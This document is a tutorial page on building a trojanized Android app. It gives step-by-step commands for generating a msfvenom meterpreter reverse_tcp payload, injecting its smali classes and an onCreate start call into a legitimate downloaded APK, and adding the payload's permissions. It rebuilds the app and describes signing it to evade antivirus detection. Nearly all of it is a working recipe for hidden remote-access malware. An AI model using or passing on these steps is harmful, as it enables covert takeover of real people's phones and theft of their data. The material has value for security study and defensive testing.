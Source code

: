 # Malicious APK with MSF Venom

We will now see how to create a malicious APK file that will provide full access to an Android device. Then, we will proceed to download a standard APK and combine it with our malicious APK. This fusion aims to conceal the malicious nature of the file and make it harder to detect at first glance. Additionally, we will learn how to sign the resulting APK to evade detection by antivirus systems.



## **Required applications:**

**APKTool** is a tool that allows you to decompile and recompile Android APK files. It is used to modify applications, translate them, analyze their functionality, or study their security, making it possible to edit resources and source code.

<figure><img src="https://apktool.org/img/logo.png" alt=""><figcaption></figcaption></figure>



**Uber APK Signer** is a tool used to sign and verify APK files, ensuring they can be installed on Android devices and maintaining their integrity after modifications.

<figure><img src="../.gitbook/assets/feature_uber-apk-signer_hu5bbfe30042bd23f147a6d6cd4ace5264_41395_660x0_resize_box_3.png" alt="" width="165"><figcaption></figcaption></figure>



**Msfvenom** is a tool used to create malicious APKs with embedded payloads, enabling remote access to Android devices. It’s commonly used in penetration testing to test security vulnerabilities.

<figure><img src="https://pbs.twimg.com/profile_images/580131056629735424/2ENTk2K2_400x400.png" alt="" width="188"><figcaption></figcaption></figure>

## Step-by-step documentation

1. Download APK where the malicious will be hidden

[APKMonk download page](https://www.apkmonk.com/)

2. Generate malicious APK using msfvenom

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> R > msf.apk
```

<figure><img src="https://lh3.googleusercontent.com/u9xS5u0Wabo1duMoIuKKINwXFcWIZEeHRkiiO-EGXhvgB4cLJq4ETm2Ah0dkN0x1uQ0_CgBxmeacAd5OFtfPcYfnH0lSxF520cn7GvRgJ-5Eh-xAT9Y3BbUKFfFh9mBxqw=w1280" alt=""><figcaption></figcaption></figure>

3. Decompile both APKs with Apktool

```bash
java -jar apktool.jar d <file.apk>
```

<figure><img src="../.gitbook/assets/1.png" alt=""><figcaption></figcaption></figure>

4. Copy classes from malicious APK to original APK

```bash
cd msf
tar -cd - ./smali | ( cd ./<dir_apk_original>; tar -xpf - )
```

<figure><img src="https://lh4.googleusercontent.com/kmv9KemLctbnTan4pkY9mE_jxcZJmUUE3O8iME2OcKfAH8BLGGKl7COjgVwo2yzF3FH9jLrKsbH88199NwYNbMMjDYTqDofCI2A55eD9Y-XM97no16gvwWDYVM5twALTVA=w1280" alt=""><figcaption></figcaption></figure>

5. Find main file from original APK

```bash
grep "MAIN" <dir_apk_original>/AndroidManifest.xml
```

<figure><img src="https://lh6.googleusercontent.com/NV0MZJDmJ13uwn08-GyatNud2pH1BIijV254FYzPecMrfqdBOeLNijxxgFTGJVsTKYxTHRq6wLAveN2smXIg5VpsklJsTK-lkxGT2WZSipo31nUQ_yEU1qupbqAfcoAwpw=w1280" alt=""><figcaption></figcaption></figure>

6. Insert payload in the OnCreate method

```bash
invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V
```

<figure><img src="https://lh6.googleusercontent.com/NUhi60jD9nuffsyY-uMPL8ByDQ8Imp4INEln5YtByL-33qgz4SiIxApGgv4jRGrdST4wK2u8j-0SlUrKa1TWo4v7uH-LGI6bUt6tU7qKXxZ_p1N_2PTUTTpDruPnDAE6Hg=w1280" alt=""><figcaption></figcaption></figure>

7. Copy permissions from msf/AndroidManifest.xml

```bash
grep "<uses-permission" msf/AndroidManifest.xml
```

<figure><img src="https://lh6.googleusercontent.com/OPol5zzCjc08hulZ3J9m7ZTfvsxqcs2NH3h5n4n4pQLh8PxZiPYKy8zMz8MY2UE18oAoIHZQXBU9rC8MH_IbWYqP01RDdjO9Cgmxqk68qAk5I055ZW-mJ7Mr95mUvi9JGg=w1280" alt=""><figcaption></figcaption></figure>

8. Add permissions to the original APK

> It is important not to add permissions that already exist, if there are any duplicates we must eliminate them.

```bash
nano <dir_apk_original>/AndroidManifest.xml
```

<figure><img src="../.gitbook/assets/4.png" alt=""><figcaption></figcaption></figure>

9. Build the original APK

```bash
java -jar apktool.jar b <dir_apk_original> -o <file.apk>
```

<figure><img src="https://lh4.googleusercontent.com/pdAybD2ov36xeF6vwc54rz9g8_BMR1ECVZMLBZ0AnL52Z_oY_cgAZ4-akB6DR-XG2wULG93M9Ad7TiTe8Odt2OTNeT6tR8OTlziUT3DEMtjmEmvtW2GAwFdkeiMw4HmJ4A=w1280" alt=""><figcaption></figcaption></figure>


